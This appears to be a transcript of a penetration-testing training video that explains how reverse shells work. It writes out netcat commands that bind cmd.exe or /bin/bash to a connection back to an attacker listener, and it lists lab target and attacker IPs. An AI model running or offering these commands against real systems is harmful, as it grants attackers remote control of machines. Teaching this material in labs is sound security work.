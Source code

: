 ```
C:\Users\Administrator\Desktop>nc.exe -nv 10.10.0.2 1234 -e cmd.exe 
```

The connection is made, and we head over to the attacker system. We get a command shell session or a command prompt session. And we're able to execute commands.

```
C:\Users\Administrator\Desktop>whoami
```

That is how a reverse shell works.

This process can also be replicated for Linux systems. so if I just show you how this would work locally.

We wanted to obtain a reverse shell on our Kali Linux system.

We can set up a listener on Kali.

```
nc -nvlp 1234
```

And we can obtain a reverse shell on Kali as well.

On the other terminal. And we want to connect to our own IP. And we can paste the attacker's IP there, or just the local host. So we're connecting to that port, where the Netcat listener is running. And because this is a Linux system, we're going to execute `/bin/bash` .

```
nc -nv 10.10.0.2 1234 -e /bin/bash 
```

And on the listener, we should receive a reverse shell.

```
ls -al
```

The process can be repeated on multiple operating systems, irregardless of whether or not it's Windows or Linux. And all you need to do is just change the shell that's being executed.

The great thing about a reverse shell is, because the connection to the Netcat listener is being made from the target system, the connection doesn't need to be made via Netcat. It can also be made via some PowerShell code, or in the case of Linux, by some standard bash code.

This is pretty much just a standard demonstration of how a reverse shell works. And you can see the differences in terms of the connection. And I've already highlighted the advantages of using a reverse shell.

Now that we know how a reverse shell works, and how it can be set up, and orchestrated with Netcat, we are going to be taking a look at a reverse shell cheatsheet and how we can simplify the process of obtaining a reverse shell without reliance on Netcat.

# 复现视频内容
Target IP Address : 10.0.24.45

Kali Linux : 10.10.16.3
